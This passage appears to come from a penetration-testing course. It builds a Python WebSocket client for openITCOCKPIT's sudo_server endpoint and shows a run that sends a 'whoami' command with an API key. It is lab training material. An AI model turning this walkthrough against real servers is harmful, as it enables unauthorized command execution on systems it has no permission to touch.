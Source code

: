 > Listing 63 - Creating toJson

Next, we will create the event handler for _on_message_. As we learn how the server communicates, we will make changes to this function. The _on_message_ event (Listing 64) passes in the WebSocket connection and the message that was sent. For now, we will parse the message, set the uniqid global variable if the server sent one, and print the raw message.

```
def on_message(ws, message):
    mes = json.loads(message)

    if "uniqid" in mes.keys():
        uniqid = mes["uniqid"]

    print(mes)
```

> Listing 64 - Creating on_message

With _on_message_ created, we will create the event handlers for _on_error_ and _on_close_. For _on_error_, we will simply print the error. For _on_close_, we will just print a message that the connection was closed.

```
def on_error(ws, error):
    print(error)

def on_close(ws):
    print("[+] Connection Closed")
```

> Listing 65 - Creating on_error and on_close

With the script completed, we will use it to connect to the server and attempt to send a whoami command.

```
kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e -v
--- request header ---
GET /sudo_server HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Host: openitcockpit
Origin: http://openitcockpit
Sec-WebSocket-Key: 5E+Srv82go8K6QOoJ6WRUQ==
Sec-WebSocket-Version: 13


-----------------------
--- response header ---
HTTP/1.1 101 Switching Protocols
Server: nginx
Date: Fri, 21 Feb 2020 16:36:31 GMT
Connection: upgrade
Upgrade: websocket
Sec-WebSocket-Accept: R4BpxrINRQ/cDOErqo4rbxfliaI=
X-Powered-By: Ratchet/0.4.1
-----------------------
{'payload': 'Connection established', 'type': 'connection', 'task': '', 'uniqid': '5e50070feeac73.88569350'}
whoami
send: b'\x81\xf5\x8b\xc1\xa3\x9e\xf0\xe3\xd7\xff\xf8\xaa\x81\xa4\xab\xe3\xc6\xe6\xee\xa2\xd6\xea\xee\x9e\xcd\xff\xec\xa8\xcc\xed\xd4\xa2\xcc\xf3\xe6\xa0\xcd\xfa\xa9\xed\x83\xbc\xef\xa0\xd7\xff\xa9\xfb\x83\xbc\xfc\xa9\xcc\xff\xe6\xa8\x81\xb2\xab\xe3\xd6\xf0\xe2\xb0\xca\xfa\xa9\xfb\x83\xbc\xa9\xed\x83\xbc\xe0\xa4\xda\xbc\xb1\xe1\x81\xaf\xed\xa4\xc2\xaf\xb9\xf2\xc6\xae\xbc\xa7\x94\xad\xbb\xa7\x94\xa8\xee\xf7\x95\xaf\xe9\xa2\xc6\xfa\xb8\xf2\xc2\xa7\xbf\xf0\x96\xac\xb8\xf6\x9b\xa8\xba\xf0\xc6\xbc\xf6'
```